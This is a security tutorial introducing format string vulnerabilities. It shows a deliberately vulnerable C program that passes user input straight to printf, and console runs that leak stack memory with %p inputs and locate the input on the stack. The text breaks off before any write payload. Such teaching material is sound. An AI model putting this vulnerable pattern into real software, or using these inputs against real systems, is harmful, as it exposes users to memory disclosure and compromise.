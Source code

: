 Title: Introduction to format string exploits
Date: 2013-05-02
Tags: exploitation, tutorial
Summary: A brief introduction to format string exploits. 

It would be helpful to be familiar with the x86 calling conventions before reading this tutorial. I prepared a brief primer [here](|filename|/security/x86_calling.md) and you are encouraged to learn more on your own.

# How do format strings vulnerabilities work? #

Format string vulnerabilities are a pretty silly class of bug that take advantage of an easily avoidable programmer error.
If the programmer passes an attacker-controlled buffer as the argument to a `printf` 
(or any of the related functions, including `sprintf`, `fprintf`, etc), the attacker can perform
writes to arbitrary memory addresses. The following program contains such an error:

~~~
:::c
#include<stdio.h>
int main(int argc, char** argv) {
    char buffer[100];
    strncpy(buffer, argv[1], 100);
    printf(buffer);
    return 0;
}
~~~

Since `printf` has a variable number of arguments, it must use the format string to determine the number of arguments.
In the case above, the attacker can pass the string `"%p %p %p %p %p %p %p %p %p %p %p %p %p %p %p"` and fool the `printf` into thinking it has 15
arguments. It will naively print the next 15 addresses on the stack, thinking they are its arguments:

~~~
:::console
$ ./a.out "%p %p %p %p %p %p %p %p %p %p %p %p %p %p %p"
0xffffdddd 0x64 0xf7ec1289 0xffffdbdf 0xffffdbde (nil) 0xffffdcc4 0xffffdc64 (nil) 0x25207025 0x70252070 0x20702520 0x25207025 0x70252070 0x20702520
~~~

At about 10 arguments up the stack, we can see a repeating pattern of `0x252070` - those are our `%p`s on the stack! We start our string
with `AAAA` to see this more explicitly:

~~~
:::console
$ ./a.out "AAAA%p %p %p %p %p %p %p %p %p %p"
AAAA0xffffdde8 0x64 0xf7ec1289 0xffffdbef 0xffffdbee (nil) 0xffffdcd4 0xffffdc74 (nil) 0x41414141
~~~

The `0x41414141` is the hex representation of `AAAA`. We now have a way to pass an
arbitrary value (in this case, we're passing `0x41414141`) as an argument to `printf`. At this point we will take
advantage of another format string feature: in a format specifier, we can also select a specific argument. For example,
`printf("%2$x", 1, 2, 3)` will print 2. In general, we can do `printf("%<some number>$x")` to select an arbitrary argument
to `printf`. In our case, we see that `0x41414141` is the 10th argument to `printf`, so we can simplify our string[^1]:


[^1]: You'll note the single quotes - `$` is a special symbol on the shell and would otherwise need to be escaped.
[^2]: You'll note that we use print the exploit string in a python subshell. 